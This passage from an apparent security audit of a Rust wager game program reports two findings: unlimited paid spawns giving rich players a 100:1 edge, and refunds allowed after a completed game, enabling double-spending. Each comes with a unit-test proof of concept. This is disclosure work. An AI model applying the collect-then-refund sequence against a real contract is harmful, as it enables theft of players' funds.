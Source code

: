 #### 🐛 The Problem

Unlimited spawn purchases create extreme pay-to-win scenarios.

**📁 PoC Location:** [`security/proof-of-concepts/poc_7.rs`](proof-of-concepts/poc_7.rs)

```rust
#[test]  
fn test_unlimited_spawn_advantage() {
    let rich_player = create_wealthy_player();
    let normal_player = create_regular_player();
    
    // 💰 Rich player buys 100 extra spawns
    for _ in 0..100 {
        pay_to_spawn(&mut game_session, rich_player).unwrap();
    }
    
    // 📊 Final spawn counts
    let rich_spawns = game_session.get_player_spawns(rich_player); // 1000
    let normal_spawns = game_session.get_player_spawns(normal_player); // 10
    
    // 🚨 100:1 advantage ratio!
    let advantage_ratio = rich_spawns / normal_spawns;
    assert_eq!(advantage_ratio, 100);
    
    println!("💸 CONFIRMED: {}:1 spawn advantage", advantage_ratio);
}
```

#### 💥 Pay-to-Win Impact
- **💰 Wealthy Player:** 1000 total spawns
- **👤 Regular Player:** 10 default spawns  
- **📈 Advantage:** 100:1 = guaranteed victory for rich players

---

### [VULN-05-M] No Game State Validation in Refunds

**📍 Location:** [`refund_wager.rs:18`](../programs/wager-program/src/instructions/refund_wager.rs#L18)  
**🎯 Function:** `refund_wager_handler()`  
**⚡ Status:** ✅ **CONFIRMED WITH POC**

#### 🐛 The Problem

Completed games can be refunded, enabling double-spending attacks.

**📁 PoC Location:** [`security/proof-of-concepts/poc_8.rs`](proof-of-concepts/poc_8.rs)

```rust
#[test]
fn test_post_game_refund_exploit() {
    // 1. Complete a game normally
    complete_game(&mut game_session);
    assert_eq!(game_session.state, GameState::Completed);
    
    // 2. Winners collect their prizes
    let winnings = collect_winnings(&game_session);
    assert_eq!(winnings, 2000);
    
    // 3. 🚨 Then request refund - should fail but doesn't!
    let refund = refund_wager(&mut game_session).unwrap();
    assert_eq!(refund, 2000);
    
    println!("💸 CONFIRMED: Double spending - collected {} + refunded {}", 
             winnings, refund);
}
```